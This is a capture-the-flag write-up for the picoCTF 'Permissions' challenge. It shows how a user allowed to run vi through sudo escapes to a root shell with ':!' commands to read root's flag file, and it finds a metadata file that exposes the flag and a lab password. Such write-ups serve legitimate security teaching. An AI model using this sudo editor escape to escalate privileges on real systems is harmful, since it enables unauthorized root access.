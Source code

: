# [Permissions](https://play.picoctf.org/practice/challenge/363?page=10&search=)

## Initial exploration
After connecting to the challenge and navigating to the topmost directory using `cd /`, we are able to see the `root` folder. However, attempting direct access resulted in a permissions error:

```
picoplayer@challenge:/$ cd root
-bash: cd: root: Permission denied
```
## Using VIM editor
To determine the commands available with root permissions, I used `sudo -l`:

```
picoplayer@challenge:/$ sudo -l
[sudo] password for picoplayer: 
Matching Defaults entries for picoplayer on challenge:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User picoplayer may run the following commands on challenge:
    (ALL) /usr/bin/vi
```

Notably, the VIM editor (`vi`) is permitted. By invoking `sudo vi`, I accessed the editor. In VIM's command mode, prefixing commands with `!` lets us execute shell commands as the user who launched VIM. From the VIM command mode (entered by pressing `esc`, then `:`), I first navigated to the `root` folder using `:!cd root`. Next, I used `:!ls -al` to see all the files in `root`.

```
total 16
drwx------ 1 root root   22 Jul 31 17:58 .
drwxr-xr-x 1 root root   63 Jul 31 17:56 ..
-rw-r--r-- 1 root root 3106 Dec  5  2019 .bashrc
-rw-r--r-- 1 root root   35 Mar 16 02:29 .flag.txt
-rw-r--r-- 1 root root  161 Dec  5  2019 .profile
-rw------- 1 root root 1005 Jul 31 17:58 .viminfo
```

We want to open `.flag.txt`, so use `:!cat .flag.txt` in VIM. This will outprint the flag.

```
picoCTF{uS1ng_v1m_3dit0r_021d10ab}
```

To exit the VIM editor, you can type `q` followed by pressing enter.
## Using the `challenge` directory
An alternate approach for getting the flag involves the `challenge` folder.

```
picoplayer@challenge:/$ ls
bin  boot  challenge  dev  etc  home  lib  lib32  lib64  libx32  media  mnt  opt  proc  root  run  sbin  srv  sys  tmp  usr  var
```

Navigating to the folder and listing out the contents shows that there's a metadata file. Opening it reveals information about our current session, and the flag:

```
picoplayer@challenge:/challenge$ cat metadata.json 
{"flag": "picoCTF{uS1ng_v1m_3dit0r_021d10ab}", "username": "picoplayer", "password": "dLAqMvm7xv"}
```

The flag, consistent with the previous method, is `picoCTF{uS1ng_v1m_3dit0r_021d10ab}`.
